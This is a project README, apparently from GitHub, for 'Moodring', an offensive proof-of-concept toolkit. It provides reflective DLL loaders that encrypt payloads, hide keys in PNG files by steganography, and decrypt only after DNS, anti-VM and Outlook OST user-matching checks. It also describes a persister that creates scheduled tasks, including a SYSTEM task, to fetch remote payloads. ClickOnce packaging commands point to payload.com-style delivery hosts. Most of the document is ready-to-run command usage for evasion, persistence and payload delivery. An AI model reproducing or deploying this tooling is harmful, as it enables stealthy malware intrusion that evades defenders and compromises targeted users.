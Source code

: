 ## Moodring
PoC reflective DLL loader libraries with encryption, steg and env checks. Decryption key is bruteforced at runtime after env/vm checks are performed. 

### Cryptorchid - Encrypt and Hide 
Command line Encryptor/Debug tool, can test if the hash can be retrieved and payload decrypted successfully prior to putting it in the pipeline

```powershell
# Skip DNS check, use steganography, and encrypt the dll using AAAA and steg the hash into logo.png, to create logo_copy.png with the hash embeded in least signifcant bit
 .\Cryptorchid.exe -nodns -steg AAAA .\calc.dll .\Logo.png

# Check DNS match for google and check for Sandbox VMs, looks for encyrpted 'mod.txt' and png in the current dir, bruteforce to decrypt and load
# This is to test the sideloading dll, change these values in Moodring source under Program.Main().
 .\Cryptorchid.exe 8.8.8.8 -antivm -stegload .\Logo_copy.png "Calc.Modes.RunCalc.Execute"

 # Pull hash from steg image and decrypt output to view (meant for text/test, will print the contents of dlls)
 .\Cryptorchid.exe -nodns -desteg  .\Logo_copy.png

 # Get hash of UPN for OST file matching
 .\Cryptorchid.exe -nodNS -hash manager@corpomax.com

 # Store hash of UPN in least significant bit
.\Cryptorchid.exe -nodNS -hideupn balls@krebsonsecurity.com .\NOGO.png

# retrieve the hash from the image
.\Cryptorchid.exe -nodNS -getupn .\NOGO_copy.png

# List OST Files found on disk for matching on UPNs
.\Cryptorchid.exe -nodNS -listaccounts 

# Encrypt using UPN Hash so we can decrypt later based on OST files found on system
.\Cryptorchid.exe -noDNs -encryptupn email@domain.com .\logo.png

# Decrypt and invoke method, matching on UPN Hash, pull it from image and check if any OST files found in AppData match
.\Cryptorchid.exe -noDNs -decryptupn .\logo_copy.png Calc.Modes.RunCalc.Execute
```

### Moodring - Decrypts payload from encrypted text file using hash stored in image
Sideloader DLL, handles the payloads decryption and loads target into memory, invoking your desired method. 

TODO: Have this an encrypted value we can pull as well from another image, get rid of the text file.

Added matching on UPN and OST file, pulls hash from image if the expected OST file is found and decrypts payload before loading.

### Taskmasker 
Persister DLL, checks users permissions and creates a task, fetching a remote payload to an AppData directory. If admin, two tasks are created, one to run as SYSTEM. 

### Package.ps1

#### Mage Package
Find a suitable .net host exe with AssemblyHunter

```bat
.\AssemblyHunter.exe path=C:\Users recurse=true clickonce=true signed=true
```

AddInUtil control (pops a window we can view console output on)

```bat
"C:\Program Files (x86)\Microsoft SDKs\Windows\v10.0A\bin\NETFX 4.8 Tools\mage.exe" -New Application -Processor msil -ToFile AddInUtil.exe.manifest -name "AddInUtil" -Version 4.0.0.0 -FromDirectory .

"C:\Program Files (x86)\Microsoft SDKs\Windows\v10.0A\bin\NETFX 4.8 Tools\mage.exe" -New Deployment -Processor msil -Install false -ProviderUrl "https://payload.com/AddInUtil.application" -AppManifest AddInUtil.exe.manifest -ToFile AddInUtil.application

# change addinutil.app from 1.0.0.0 to 4.0.0.0
notepad AddInUtil.application
```

```bat
set "MAGE_PATH=C:\Program Files (x86)\Microsoft SDKs\Windows\v10.0A\bin\NETFX 4.8 Tools\mage.exe"
set "EXE_NAME=AddInUtil"
set "URL=https://installer.payloads.com/AddInUtil.application"

%MAGE_PATH% -New Application -Processor msil -ToFile %EXE_NAME%.exe.manifest -name "%EXE_NAME%" -Version 4.0.0.0 -FromDirectory .
%MAGE_PATH% -New Deployment -Processor msil -Install false -ProviderUrl %URL% -AppManifest %EXE_NAME%.exe.manifest -ToFile %EXE_NAME%.application
```

Script version
```bat
mage.bat AddInUtil https://installer.payloads.com/AddInUtil.application
```

